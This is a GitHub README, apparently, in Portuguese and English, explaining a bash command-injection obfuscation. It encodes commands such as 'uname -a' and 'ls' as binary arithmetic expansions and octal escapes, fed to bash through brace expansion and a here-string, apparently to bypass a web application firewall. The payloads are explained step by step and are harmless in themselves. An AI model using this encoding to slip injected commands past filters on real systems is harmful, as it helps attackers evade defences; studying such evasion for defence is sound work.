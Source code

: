 # Bash-Command-Injection
Bash Command Injection using binary / Injeção de Comando no Bash utilizando binários

<img src="bash command injection waf bypass.png" align="center">

- [ASCII -> Octal](https://onlineasciitools.com/convert-ascii-to-octal)
- [Decimal -> Binary](https://www.rapidtables.com/convert/number/decimal-to-binary.html)

> Utilizando a **vírgula** `,` do **Brace Expansion** como um **espaço**. <br>
> O comando é `uname -a`. (Ignore o `$` antes do `${!##\-}`, é só pelo Syntax Highlight)
```console
$ ${!##\-}<<<{\$\'\\$(($((1<<1))#10100101))\\$(($((1<<1))#10011100))\\$(($((1<<1))#10001101))\\$(($((1<<1))#10011011))\\$(($((1<<1))#10010001))\',\$\'\\$(($((1<<1))#110111))\\$(($((1<<1))#10001101))\'}
```
> Em suma, é isso que está acontecendo: ([Explicação completa logo abaixo](#explicação-em-inglês))
- `{\$\'comando-1\',\$\'comando-2\'}`

<br>

> Explicação do por que de usar o **Brace Expansion**.
```console
$ echo {primeiro,segundo}
primeiro segundo
```

<br>

<hr>

<br>

### Explicação em inglês:

```bash
### idea: @sirifu4k1

# My final payload:
# ${0##\-}<<<$\'\\$(($((1<<1))#10011010))\\$(($((1<<1))#10100011))\'
# Let's understand what the hell is happening here.

## 1.1: ${0##\-}
# ${} is a parameter expansion; "$0" == is the first parameter, which is the script itself.
# Since we're "executing" "$0" straight on the shell, the program that is getting executed is bash
# But on my shell, bash had a little "-" dash sign next to the "b" letter of bash, so I removed it
# using parameter expansion (${0##\-} == removes the dash "-" from "-bash", and we're left with "bash")

## 1.2: <<<
# A "Here String" is used for input redirection from text or a variable.
# For example: (counting the words of a given file called about.txt)
$ wc -l <<< about.txt
1 # (output as an example)

## 1.3: $\' ... \'
# First of all, "$'Something\nSomething-else'" causes escape sequences to be interpreted.
# So we can call an octal to be interpreted to text, just like so (154 in octal == l; 163 in octal == s):
$'\154\163'

# Another example:
$'\151\144' # 151 == i; 144 == d (id gets interpreted as a command)

## 1.4: \\$(( $(( 1 << 1 ))#10011010)) \\$(( $(( 1 << 1))#10100011 ))
# $(()) == POSIX arithmetic expansion
# Note: (man bash)
# Words of the form $'string' are treated specially. The word expands to
# string, with backslash-escaped characters replaced as specified by the ANSI C
# standard.

# Note:
# The "\\" (double backslash) characters are necessary in order to force the shell to pass
# a "\$" (single backslash, dollar sign) to the arithmetic expansion.

### 2.4: $(( $((1<<1))#10011010 ))
# 1<<1 == 2
# base#number == performing calculations between different arithmetic bases [base#]number
#                base is a decimal integer between 2 and 36 that specifies the arithmetic base. (default is base 10)

# Enclosing two arithmetic expansion inside of each other, so that 2#10011010 (octal "154" to binary is "10011010") is equal to 154 (octal)
# Text to octal: "http://www.unit-conversion.info/texttools/octal/"
# Decimal to binary: "https://www.rapidtables.com/convert/number/decimal-to-binary.html"
# 167 150 157 :: 10100111 = w; 10010110 = h; 10011101 = o

### 3.4: $(( $((1<<1))#10100011 ))
# Is exatcly the same concept as I mentioned previously (at 2.4), and we're left with 163 (octal)

# Conclusion:
# This whole mess will give us the result $'\154\163', which is "ls"

# Image explanation, by @sirifu4k1
# https://pbs.twimg.com/media/FqJd-irakAEBPh_.jpg
```
